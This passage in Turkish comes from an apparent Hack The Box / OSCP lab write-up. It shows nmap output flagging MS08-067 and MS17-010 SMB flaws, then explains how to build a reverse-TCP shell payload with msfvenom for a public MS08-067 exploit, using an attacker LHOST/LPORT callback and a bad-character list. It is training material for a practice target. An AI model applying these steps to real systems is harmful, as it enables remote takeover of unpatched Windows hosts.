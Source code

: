 ```
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 8.47 seconds

```

Görünüşe göre bu box, MS-08-067 (Conficker tarafından meşhur edilmiştir) ve MS-17-010 (Shadow Brokers tarafından meşhur edilmiştir) olmak üzere iki kötü şöhretli SMB açığına karşı savunmasızdır.


## System Shell

### Overview

Bu güvenlik açıklarının her ikisi de sistem olarak bir shell vermektedir. Her ikisi de temelde otomatik pwns olan Metasploit modüllerine sahiptir. Ancak bunu ilginç kılmak için (ve PWK / OSCP yapan herkesle alakalı), her birinin Metasploit olmadan nasıl yapılacağını göstereceğim.


### MS-08-067

#### Locate Exploit

Burada Github'daki jivoi'nin [exploit](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)'ini kullanacağım. Impacket (Kali'de yüklü olarak geliyor) gerektiren ve varsayılan shellcode'u kendiminkiyle değiştirmemi sağlayan bir python script'i. (İlginç bir şekilde, varsayılan 10.11.0.157'ye bir reverse TCP shell... yazar PWK'da olabilir gibi görünüyor).

#### Shellcode Generation

Shellcode oluşturmak için **msfvenom** kullanacağım. Exploit kodundaki örneklerden **bad character** listesini (-b) kopyalayacağım. Aşağıdaki parametreleri kullanacağım:

- **`-p windows/shell_reverse_tcp`** – Bu, hedef sistemden bana reverse bağlantı açarak bir **shell** sağlayacak. **shell_reverse_tcp** payload'ı **unstaged** olduğu için, tüm shell kodu tek seferde üretilir ve doğrudan çalıştırılabilir. **shell/reverse_tcp** kullanmış olsaydım, bu **staged** bir payload olurdu ve callback almak için **Metasploit'in `exploit/multi/handler` modülünü** kullanmam gerekirdi.
- **`LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread`** – Payload için değişkenleri tanımlıyorum: **LHOST** saldırganın IP adresi, **LPORT** bağlantıyı alacak port ve **EXITFUNC** ise shell kodunun nasıl sonlandırılacağını belirler (**thread** kullanarak çıkış yapacak).
- **`-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`** – Kullanılmaması gereken **bad character**’ları belirtiyorum. Bu karakterler, hedef uygulamanın bellek yapısına veya kullanılan kodlama yöntemine bağlı olarak shellcode'un çalışmasını engelleyebilir. Listeyi exploit kodundaki yorumlardan aldım.
- **`-f py`** – Çıktıyı **Python** formatında oluşturuyorum. Örnekler genellikle **C** formatında oluşturuluyor, ancak Python’a uygun şekilde düzenlemek de mümkün.
- **`-v shellcode`** – Shellcode'un **`buf`** yerine **`shellcode`** değişkenine atanmasını sağlıyorum. Kullandığım kodda **shellcode** olarak tanımlandığı için uyumlu olmasını istiyorum.
- **`-a x86 --platform windows`** – **Hedef ortamı** tanımlıyorum: **x86 mimarisi** ve **Windows platformu**.
